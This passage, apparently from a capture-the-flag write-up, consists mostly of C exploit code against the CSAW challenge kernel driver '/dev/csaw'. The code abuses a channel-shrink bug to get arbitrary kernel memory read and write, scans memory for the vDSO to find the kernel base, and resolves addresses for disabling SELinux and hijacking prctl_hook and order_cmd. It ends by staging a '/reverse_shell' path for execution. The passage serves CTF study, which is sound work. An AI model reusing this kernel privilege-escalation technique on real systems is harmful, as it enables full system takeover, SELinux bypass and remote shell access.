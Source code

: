 ```C
	struct seek_channel_args seek_args;
	struct read_channel_args read_args;
	struct close_channel_args close_args;
	struct write_channel_args write_args;
	size_t addr = 0xffffffff80000000;

	size_t kernel_base = 0 ;
	size_t selinux_disable_addr= 0x351c80;
	size_t prctl_hook = 0xeb7df8;
	size_t order_cmd = 0xe4dfa0;
	size_t poweroff_work_func_addr =0xa39c0;

	char *buf = malloc(0x1000);

	fd = open("/dev/csaw",O_RDWR);
	if(fd < 0){
		puts("[-] open error");
		exit(-1);
	}

	alloc_args.buf_size = 0x100;
	alloc_args.id = -1;
	ioctl(fd,CSAW_ALLOC_CHANNEL,&alloc_args);
	if (alloc_args.id == -1){
		puts("[-] alloc_channel error");
		exit(-1);
	}
	printf("[+] now we get a channel %d\n",alloc_args.id);
	shrink_args.id = alloc_args.id;
	shrink_args.size = 0x100+1;
	ioctl(fd,CSAW_SHRINK_CHANNEL,&shrink_args);
	puts("[+] we can read and write any momery");
	for(;addr<0xffffffffffffefff;addr+=0x1000){
		seek_args.id =  alloc_args.id;
		seek_args.index = addr-0x10 ;
		seek_args.whence= SEEK_SET;
		ioctl(fd,CSAW_SEEK_CHANNEL,&seek_args);
		read_args.id = alloc_args.id;
		read_args.buf = buf;
		read_args.count = 0x1000;
		ioctl(fd,CSAW_READ_CHANNEL,&read_args);
		if(( !strcmp("gettimeofday",buf+0x2cd)) ){ 
			result = addr;
			printf("[+] found vdso %lx\n",result);
			break;
		}
	}
	
	kernel_base = addr&0xffffffffff000000;
	selinux_disable_addr+= kernel_base;
	prctl_hook += kernel_base;
	order_cmd += kernel_base;
	poweroff_work_func_addr += kernel_base;
	
	printf("[+] found kernel base: %lx\n",kernel_base);
	printf("[+] found prctl_hook: %lx\n",prctl_hook);
	printf("[+] found order_cmd : %lx\n",order_cmd);
	printf("[+] found selinux_disable_addr : %lx\n",selinux_disable_addr);	
	printf("[+] found poweroff_work_func_addr: %lx\n",poweroff_work_func_addr);


	memset(buf,'\0',0x1000);
	strcpy(buf,"/reverse_shell\0");
```

  [1]: https://git.kernel.org/pub/scm/linux/kernel/git/torvalds/linux.git/commit/?id=018ef8dcf3de5f62e2cc1a9273cc27e1c6ba8de5
  [2]: http://static.zybuluo.com/leafish/7kllxk3wq7npozo6ay31u34v/image_1e7t7btk61ih1ejb14smvk6ahe9.png
  [3]: http://static.zybuluo.com/leafish/ic34zdg3ad9pzjmdlexkscfr/image_1e7ng9lll1b8o3c618pi5d21h419.png
  [4]: http://static.zybuluo.com/leafish/kday5phaa948j024wr5zp6vu/image_1e7nsim15g5s1asa10oq1pmb1kaa9.png
  [5]: http://static.zybuluo.com/leafish/tyqt2hszfcv4dryegu5wcmdn/image_1e7nssvpm1nfrnononklo11gt6m.png
  [6]: http://static.zybuluo.com/leafish/y85k77eqmfr00x5v9fiqixcd/image_1e7ruv5ad1oq018ja10h14ft1qej13.png
  [7]: http://static.zybuluo.com/leafish/u3wt7758a10e22r0n4d06hpp/image_1e7rup6i21t73195b3a7iugto79.png
  [8]: http://static.zybuluo.com/leafish/2hwyuqcz7k70pihgu2zn4pqj/image_1e7rv1ckk76o11i81cadog7ee91g.png
  [9]: http://static.zybuluo.com/leafish/fvprvqa9klbq96h1opkzyalf/image_1e7rurbdg1jf01ie310mqkss1e88m.png
  [10]: http://static.zybuluo.com/leafish/bzbhhjvgu1j3qsodbcz3vngn/image_1e7t6hsg68ojri3mu3dq1gll1t.png
